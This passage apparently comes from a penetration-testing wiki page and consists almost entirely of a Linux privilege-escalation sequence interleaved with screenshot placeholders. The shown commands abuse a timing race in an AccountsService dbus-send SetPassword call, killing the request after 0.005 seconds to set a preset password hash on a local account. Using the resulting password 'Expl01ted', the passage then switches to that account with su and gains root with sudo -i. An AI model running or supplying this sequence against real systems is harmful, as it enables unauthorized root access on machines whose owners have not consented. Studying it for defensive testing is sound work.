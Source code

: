 <figure><img src="../../.gitbook/assets/image (916).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
id attacker
```

<figure><img src="../../.gitbook/assets/image (917).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts/User1000 org.freedesktop.Accounts.User.SetPassword string:'$6$TRiYeJLXw8mLuoxS$UKtnjBa837v4gk8RsQL2qrxj.0P8c9kteeTnN.B3KeeeiWVIjyH17j6sLzmcSHn5HTZLGaaUDMC4MXCjIupp8.' string:'Ask the pentester' & sleep 0.005s; kill $!
```

<figure><img src="../../.gitbook/assets/image (918).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
su attacker
Password: Expl01ted
```

<figure><img src="../../.gitbook/assets/image (919).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
sudo -i
Password: Expl01ted
```

<figure><img src="../../.gitbook/assets/image (920).png" alt=""><figcaption></figcaption></figure>

